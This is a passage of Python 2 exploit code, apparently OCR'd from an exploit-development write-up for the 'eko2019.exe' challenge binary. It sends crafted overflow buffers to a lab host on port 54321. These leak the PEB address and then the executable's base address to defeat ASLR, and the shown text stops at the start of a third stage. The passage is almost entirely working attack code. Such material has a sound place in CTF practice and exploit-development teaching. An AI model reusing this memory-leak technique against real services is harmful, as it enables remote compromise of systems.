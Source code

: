 ```python

# Must be a multiple of 8 - so null bytes to compensate for the other 7 bytes
exploit += "\x00\x00\x00\x00\x00\x00\x00"

# Message needs to be 528 bytes total
exploit += "\x41" * (544-len(exploit))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit)

# Indexing the response to view RAX (PEB)
receive = s.recv(1024)
peb_unpack = struct.unpack_from('<Q', receive)
peb_addr = peb_unpack[0]

print "[+] PEB is located at: {0}".format(hex(peb_addr))

# Closing the connection
s.close()

# Allow buffer room
sleep(2)

# 2nd stage

# 16 total bytes
print "[+] Sending the second header..."
exploit_2 = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 byte offset to the byte we control
exploit_2 += "\x41" * 512

# Just want a vanilla mov rax, qword ptr[rcx], which already exists - so sliding in with a NOP to this instruction
exploit_2 += "\x90"

# Padding to loading PEB+0x10 into rcx
exploit_2 += "\x41\x41\x41\x41\x41\x41\x41"
exploit_2 += struct.pack('<Q', peb_addr+0x10)

# Message needs to be 528 bytes total
exploit_2 += "\x41" * (544-len(exploit_2))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit_2)

# Indexing the response to view RAX (Base VA of eko2019.exe)
receive_2 = s.recv(1024)
base_va_unpack = struct.unpack_from('<Q', receive_2)
base_address = base_va_unpack[0]

print "[+] The base address for eko2019.exe is located at: {0}".format(hex(base_address))

# Closing the connection
s.close()

# Allow buffer room
sleep(2)

# 3rd stage

```